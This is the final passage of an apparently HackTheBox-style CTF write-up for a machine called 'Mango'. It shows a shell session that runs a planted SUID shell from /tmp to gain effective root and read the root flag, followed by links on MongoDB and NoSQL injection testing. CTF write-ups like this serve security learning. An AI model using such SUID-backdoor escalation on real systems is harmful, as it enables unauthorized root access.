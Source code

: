 All we need to do now is run the new SUID binary and grab the root flag.

```
admin@mango:/home/mango$ /tmp/r00t -p
r00t-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
r00t-4.4# cat /root/root.txt
35d0be95f135d7c9c4c3f58c20b6e978
r00t-4.4#
```

## Resources

Mongodb is a NoSQL database which stores documents using the JSON format. For more information about this check out the following page:

{% embed url="https://www.mongodb.com/basics" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection" %}

{% embed url="https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf" %}

{% embed url="https://h4wkst3r.blogspot.com/2018/05/code-execution-with-jdk-scripting-tools.html" %}



